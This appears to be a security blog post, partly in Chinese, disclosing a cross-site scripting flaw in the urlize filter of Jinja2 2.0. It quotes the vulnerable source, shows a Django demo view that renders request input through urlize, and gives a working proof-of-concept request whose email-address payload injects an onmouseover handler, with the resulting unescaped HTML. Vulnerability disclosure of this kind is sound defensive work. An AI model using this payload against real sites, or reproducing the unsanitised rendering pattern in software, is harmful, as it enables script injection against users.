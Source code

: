 ```yaml
---
layout: post
title: Jinja2 2.0 /utils.py urlize vulnerability
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>

## 1. Jinja2

> Jinja2(http://jinja.pocoo.org/)是基于python的模板引擎，功能比较类似于于PHP的smarty，J2ee的Freemarker和velocity。 它能完全支持unicode，并具有集成的沙箱执行环境，应用广泛。

## 2. Description

问题出现在Jinja2(https://github.com/mitsuhiko/jinja2/tree/2.0) 2.0版本中，其中对urlize处理不当导致模板层使用处存在跨站脚本漏洞的产生。

## 3. Vulnerability

漏洞文件 /jinja2/utils.py 157-198:

    def urlize(text, trim_url_limit=None, nofollow=False):
        """Converts any URLs in text into clickable links. Works on http://,
        https:// and www. links. Links can have trailing punctuation (periods,
        commas, close-parens) and leading punctuation (opening parens) and
        it'll still do the right thing.

        If trim_url_limit is not None, the URLs in link text will be limited
        to trim_url_limit characters.

        If nofollow is True, the URLs in link text will get a rel="nofollow"
        attribute.
        """
        trim_url = lambda x, limit=trim_url_limit: limit is not None \
                             and (x[:limit] + (len(x) >=limit and '...'
                             or '')) or x
        words = _word_split_re.split(text)
        nofollow_attr = nofollow and ' rel="nofollow"' or ''
        for i, word in enumerate(words):
            match = _punctuation_re.match(word)
            if match:
                lead, middle, trail = match.groups()
                if middle.startswith('www.') or (
                    '@' not in middle and
                    not middle.startswith('http://') and
                    len(middle) > 0 and
                    middle[0] in string.letters + string.digits and (
                        middle.endswith('.org') or
                        middle.endswith('.net') or
                        middle.endswith('.com')
                    )):
                    middle = '<a href="http://%s"%s>%s</a>' % (middle,
                        nofollow_attr, trim_url(middle))
                if middle.startswith('http://') or \
                   middle.startswith('https://'):
                    middle = '<a href="%s"%s>%s</a>' % (middle,
                        nofollow_attr, trim_url(middle))
                if '@' in middle and not middle.startswith('www.') and \
                   not ':' in middle and _simple_email_re.match(middle):
                    middle = '<a href="mailto:%s">%s</a>' % (middle, middle)
                if lead + middle + trail != word:
                    words[i] = lead + middle + trail
        return u''.join(words)

words = _word_split_re.split(text) 对传值text进行简单的正则处理，_word_split_re = re.compile(r'(\s+)')。
随后words进入循环for i, word in enumerate(words)处理后return u''.join(words)。

## 4. demo

    views.py:
    def testtest(request):
        text = request.GET['bb2']
        return render(request, 'test.html', {'text': text})

    temp.html:
        {% raw %}{{ text | urlize }}{% endraw %}

```
GET: http://localhost/?bb2=test@beebeeto.com"/onmouseover=alert(1)//
```

![demo](http://www.hackersoul.com/img/media/jinja2_2_0_urlize_alert.png)

django views.py print:

    Django version 1.6.1, using settings 'fuzzing.settings'
    Starting development server at http://0.0.0.0:8000/
    Quit the server with CONTROL-C.
    [u'<a href="mailto:test@beebeeto.com"/onmouseover=alert(1)//">test@beebeeto.com"/onmouseover=alert(1)//</a>']

## 5. fix

Update